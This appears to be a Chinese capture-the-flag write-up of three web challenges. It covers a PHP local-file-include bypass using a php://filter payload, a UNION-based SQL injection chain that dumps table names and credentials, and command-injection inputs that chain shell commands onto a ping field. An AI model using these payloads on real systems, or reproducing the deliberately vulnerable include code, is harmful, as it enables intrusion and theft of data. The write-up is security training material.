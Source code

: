 读取secr3t.php 发现源码如下:

```php
<html>
    <title>secret</title>
    <meta charset="UTF-8">
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
?>
</html>
```

payload:?file=php://filter/read=convert.base64-encode/resource=flag.php

## 极客大挑战-2019-LoveSQL

首先password万能密码注入，没有啥有用信息，尝试注入

```
/check.php?username=1&password=1%27+order+by+4%23
说明存在3个字段

/0' union select 1,2,3#
说明2和3是显示位也是注入位

1' union select 1,database(),3# 
爆出数据库 

1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()#
爆出表名 geekuser,l0ve1ysq1

1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#
爆出字段名 id,username,password

1' union select 1,database(),group_concat(id,username,password) from l0ve1ysq1'#
爆出字段内容得到flag
```

## ACTF2020-新生赛-Exec

是个ping口，尝试如下payload：

```
127.0.0.1;ls /
127.0.0.1;cat /flag
```
